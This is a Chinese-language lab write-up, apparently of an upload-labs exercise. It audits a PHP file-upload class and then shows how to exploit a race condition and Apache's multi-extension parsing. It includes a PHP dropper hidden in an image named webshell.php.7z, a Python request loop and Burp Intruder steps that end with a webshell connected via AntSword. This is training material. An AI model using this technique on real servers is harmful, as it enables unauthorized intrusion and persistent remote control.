 
# 审计源码
```php
//index.php
$is_upload = false;
$msg = null;
if (isset($_POST['submit']))
{
    require_once("./myupload.php");
    $imgFileName =time();
    $u = new MyUpload($_FILES['upload_file']['name'], $_FILES['upload_file']['tmp_name'], $_FILES['upload_file']['size'],$imgFileName);
    $status_code = $u->upload(UPLOAD_PATH);
    switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已经被上传，但没有重命名。';
            break; 
        case -1:
            $msg = '这个文件不能上传到服务器的临时文件存储目录。';
            break; 
        case -2:
            $msg = '上传失败，上传目录不可写。';
            break; 
        case -3:
            $msg = '上传失败，无法上传该类型文件。';
            break; 
        case -4:
            $msg = '上传失败，上传的文件过大。';
            break; 
        case -5:
            $msg = '上传失败，服务器已经存在相同名称文件。';
            break; 
        case -6:
            $msg = '文件无法上传，文件不能复制到目标目录。';
            break;      
        default:
            $msg = '未知错误！';
            break;
    }
}

//myupload.php
class MyUpload{
......
......
...... 
  var $cls_arr_ext_accepted = array(
      ".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",
      ".html", ".xml", ".tiff", ".jpeg", ".png" );

......
......
......  
  /** upload()
   **
   ** Method to upload the file.
   ** This is the only method to call outside the class.
   ** @para String name of directory we upload to
   ** @returns void
  **/
  function upload( $dir ){
    
    $ret = $this->isUploadedFile();
    
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->setDir( $dir );
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkExtension();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkSize();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }
    
    // if flag to check if the file exists is set to 1
    
    if( $this->cls_file_exists == 1 ){
      
      $ret = $this->checkFileExists();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }

    // if we are here, we are ready to move the file to destination

    $ret = $this->move();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }

    // check if we need to rename the file

    if( $this->cls_rename_file == 1 ){
      $ret = $this->renameFile();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }
    
    // if we are here, everything worked as planned :)

    return $this->resultUpload( "SUCCESS" );
  
  }
......
......
...... 
};
```

	我们可以看到这里定义了一个名为`MyUpload`的类，类中使用array()函数创建了一个包含`".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",".html", ".xml", ".tiff", ".jpeg", ".png"`的数组，然后定义了一个名为`upload()`的函数，`upload()`函数中使用`isUploadedFile()`函数判断指定的文件是否是通过 HTTP POST 上传的，若不是则返回$ret对应的数值，若是则继续依次判断文件是否存在、文件名是否可写、检查后缀（白名单）、检查文件大小、检查临时文件存在、保存到临时目录里、然后再重命名。


## 函数说明
```
array
array() 函数用于创建数组。
在 PHP 中，有三种类型的数组：
数值数组 - 带有数字 ID 键的数组
关联数组 - 带有指定的键的数组，每个键关联一个值
多维数组 - 包含一个或多个数组的数组

语法
数值数组的语法：
array(value1,value2,value3,etc.);
关联数组的语法：
array(key=>value,key=>value,key=>value,etc.);
key	规定键名（数值或字符串）。
value	规定键值。
```

```
is_uploaded_file() 函数判断指定的文件是否是通过 HTTP POST 上传的。如果 file 所给出的文件是通过 HTTP POST 上传的则返回 TRUE。

语法
is_uploaded_file(file)
file	必需。规定要检查的文件。
```


# 漏洞利用

## 思路
	通过代码我们看到对上传的文件做了很死的限制只能是白名单中类型的文件，不过我们发现代码流程是将文件上传之后再将文件进行更改名称，那么我们就可以利用在对文件名进行更改之前的这个间隙来实现目的，可以将Pass-18中能够生成木马文件的脚本插入图片文件中，然后利用条件竞争来生成shell.php

	apache对文件后缀名的识别是从右向左进行匹配的，以单个.作为分隔符。当遇到未知的文件后缀名时，会继续向左匹配，直到遇到可以识别的后缀名为止。利用apache的这一特性我们可以将文件名命为XXX.php，将文件后缀命名为apache无法解析的后缀如：.7z，合起来也就是XXX.php.7z，当将该文件上传后我们访问该文件，apache无法解析.7z就会将其当作php文件来解析，就可以运行我们插入的恶意代码来生成shell.php。


## 利用
编写一段能够生成木马文件的脚本，将其插入图片文件的末尾并将图片文件命名为webshell.php.7z
```php
<?php
    fputs(fopen('shell.php','w'),'此处写入木马代码');
?>
```
![image-20210608111036380.png](_img/assets/1656466939491-8dcf9e3b-697e-4fc9-9508-a6651326814f.png)

利用python的requests模块构造条件竞争（这里的uploadwebshell.php.7z是经过多次失败发现其将上传文件名前加了upload得到的）
```python
import requests
while True:
    html = requests.get("http://www.web.com/upload/uploadwebshell.php.7z")
    if html.status_code == 200:
        print("Succsee")
    else:
        print("NO")
```

将webshell.php.7z上传并使用burpsuite抓包，发送到intruder模块中，设置为循环发送（注意有效负载位置清除）<br />![image-20210608162156368.png](_img/assets/1656466947930-850bc328-6307-4c42-a07b-2abe6b523977.png)

![image-20210608162114283.png](_img/assets/1656466952605-c2e9d565-291c-4693-aba5-1aceb116d586.png)

先启动python脚本，然后在burpsuite中发送数据包<br />![image-20210608162225026.png](_img/assets/1656466957468-fae7fe26-51eb-4c22-bb52-ce682ab7b67a.png)

![image-20210608162336036.png](_img/assets/1656466961934-a0631a9c-5098-41bc-82fb-bd7309931930.png)

为了保险起见当多次出现Success时停止<br />![image-20210608162353312.png](_img/assets/1656466967249-a8b0a81a-c71b-4885-a3d5-0a65a0181ae2.png)

使用蚁剑连接shell.php<br />![image-20210608154021437.png](_img/assets/1656466971306-b618aca2-56dd-406d-a50b-05fa3e795666.png)

成功得到shell<br />![image-20210608154037465.png](_img/assets/1656466977379-60b56358-a8cf-428b-b4fb-24994938d251.png)

![image-20210608154050782.png](_img/assets/1656466981108-6d48c416-e75b-4473-826a-37b97f05be02.png)
